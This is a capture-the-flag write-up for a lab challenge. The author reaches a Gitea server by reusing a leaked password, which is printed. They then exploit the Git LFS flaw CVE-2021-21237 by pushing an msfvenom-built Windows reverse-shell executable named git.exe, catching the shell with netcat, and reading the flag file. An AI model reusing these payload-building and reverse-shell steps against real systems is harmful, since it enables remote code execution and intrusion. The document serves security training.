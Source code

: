 # git

## Challenge

```
We found data being exfiltrated out regularly from server 10.0.1.44. Can you find the server it is going to and gain access to the remote server.

Target: Your target is the last line in the bat file on the remote server.
```

## Walkthrough

First step was to find what was running on 10.0.1.44

```sh
$ sudo nmap 10.0.1.44 -sS -v -A -p 0-65535
...
Discovered open port 22/tcp on 10.0.1.44
Discovered open port 3000/tcp on 10.0.1.44
...
3000/tcp open  ppp?
| fingerprint-strings: 
...
|   GetRequest: 
|     HTTP/1.0 200 OK
...
|     <title> Gitea: Git with a cup of tea </title>
...
```

Clearly a git web interface was running on `http://10.0.1.44:3000`.

Navigating to the web interface I found a user called `fab_admin` in the explore tab.

![explore](explore.png)

I made an assumption that the password was the same as `fab-admin` from [BADFAB1](../badfab1/README.md). And that assumption was correct!

```
username fab_admin
password populatetwiddleanointer
```

Now that I had user access to the git interface I continued reconnaissance and found a git repo at `http://10.0.1.44:3000/1ord_0f_th3_ch1p/chip_tracker.git`

Inspecting its `README.md` leads to some useful hints.

```md
# chip_tracker

Ensure to clone repo often to get stolen details.

Ensure anti-virus up to date on HQ PC, some of the git software might be out of date.
```

Sounds like the repo is cloned often and that the exploit has something to do with out of date git software on the system cloning the repo.

Inspecting the repo further I noticed a couple of things

* We have write access but not for existing files, only new ones
* The only file in the repo `./chips_list.csv` is stored using git lfs

Digging around for exploits involving git-lfs I found [CVE-2021-21237](https://nvd.nist.gov/vuln/detail/CVE-2021-21237).

> Git LFS is a command line extension for managing large files with Git. On Windows, if Git LFS operates on a malicious repository with a git.bat or git.exe file in the current directory, that program would be executed, permitting the attacker to execute arbitrary code. This does not affect Unix systems. This is the result of an incomplete fix for CVE-2020-27955. This issue occurs because on Windows, Go includes (and prefers) the current directory when the name of a command run does not contain a directory separator. Other than avoiding untrusted repositories or using a different operating system, there is no workaround. This is fixed in v2.13.2.

I executed this exploit by creating a reverse shell payload with msfvenom and uploaded it to the git repo.

```sh
# create malicious git.exe
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.8.0.8 LPORT=1337 -f exe > git.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

# add to git
$ git add git.exe
$ git commit -m "ಠ‿↼"

# listen for reverse shell
$ nc -l -p 1337 -vv &
listening on [any] 1337 ...

# upload
$ git push
...
```

Soon after my shell popped! I used it to read the desired `.bat`.

```dos
10.0.1.45: inverse host lookup failed: Unknown host
connect to [10.8.0.2] from (UNKNOWN) [10.0.1.45] 54848
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\git\chip_tracker>cd ..
C:\Users\Administrator\git\> dir
...
01/05/2022  06:09 PM               203 clone.bat
...
C:\Users\Administrator\git\>type clone.bat
...
REM All_YOUR_CHIP_ARE_BELONG_TO_US.
...
```

## Solve

string: `REM All_YOUR_CHIP_ARE_BELONG_TO_US.`

